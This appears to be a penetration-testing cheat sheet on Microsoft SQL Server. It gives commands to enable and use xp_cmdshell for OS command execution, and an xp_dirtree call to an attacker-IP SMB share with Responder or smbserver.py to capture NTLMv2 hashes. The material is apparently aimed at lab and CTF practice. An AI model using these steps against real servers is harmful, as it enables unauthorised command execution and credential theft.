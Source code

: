 # Microsoft SQL Server

SQL Server supports two authentication modes, Windows authentication mode and mixed mode.
* Windows authentication is the default, and is often referred to as integrated security because this SQL Server security model is tightly integrated with Windows. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.
* Mixed mode supports authentication both by Windows and by SQL Server. User name and password pairs are maintained within SQL Server.

## Versions

```
Build number 	SQL version
10.xx 	      SQL 2008/2008R2
11.xx 	      SQL 2012
12.xx 	      SQL 2014
13.xx 	      SQL 2016
14.xx 	      SQL 2017
```

https://buildnumbers.wordpress.com/sqlserver/


## Connection string examples by server version
https://www.connectionstrings.com/sql-server/




# Tools to connect to MsSQL from Kali


## impacket mssqlclient.py

```
$ mssqlclient.py Username:Password@10.10.10.125 -windows-auth
```
### Command Execution

By default, the xp_cmdshell option is disabled on new installations. We need to enable it.

```
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO  
```

One-line
```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```


```
-- Execute command
xp_cmdshell "whoami"
```
[xp_cmdshell configuration](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017)

### Capturing NTLMv2 Hash
In case a command execution is not possible we can use Responder to set up a rogue SMB server.
From MsSQL we make a request to any share in our attacker IP, windows will try to authenticate using the user credentials and will send the NTLMv2 hash.

```
$ responder -i tun0

[+] Listening for events...

[SMBv2] NTLMv2-SSP Client   : 10.10.10.xxx
[SMBv2] NTLMv2-SSP Username : Machine\mssql-svc
[SMBv2] NTLMv2-SSP Hash     : mssql-svc::Machine:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

```

Alternative tool would be Impacket smbserver.py that would capture the NTLMv2 hash when user try accessing our share. 

```
$ smbserver.py -smb2support myshare /Share
```

The NTLMv2 hash will be capture when executin the following commands on MsSQL Server

```
declare @q varchar(200);
set @q='\\Attacker-Ip\AnyShareName';
exec master.dbo.xp_dirtree @q;
```

[Medium Artcile](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
[Ippsec Giddy Machine](https://www.youtube.com/watch?v=J2unwbMQvUo&t=1410s)

## DBeaver
Need to be installed
GUI 

```
$ apt-get install dbeaver
```


# SQL Injection - Cheat Sheet

- https://www.gracefulsecurity.com/sql-injection-cheat-sheet-mssql/
- http://webcache.googleusercontent.com/search?q=cache:qfnxkRmzzNsJ:pentestmonkey.net/cheat-sheet/sql-injection/mssql-sqlinjection-cheat-sheet+&cd=1&hl=en&ct=clnk&gl=ca&client=ubuntu
